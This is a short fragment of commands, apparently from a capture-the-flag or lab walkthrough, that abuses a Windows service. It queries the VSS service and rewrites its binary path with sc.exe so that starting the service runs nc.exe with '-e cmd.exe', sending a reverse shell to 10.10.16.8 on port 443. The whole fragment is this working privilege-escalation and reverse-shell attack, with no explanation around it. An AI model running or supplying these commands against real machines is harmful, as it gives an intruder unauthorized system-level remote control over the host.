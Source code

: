 ```
services
```

```
get-service vss
```

```
sc.exe config vss binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.8 443"
```

```
sc.exe start vss
```

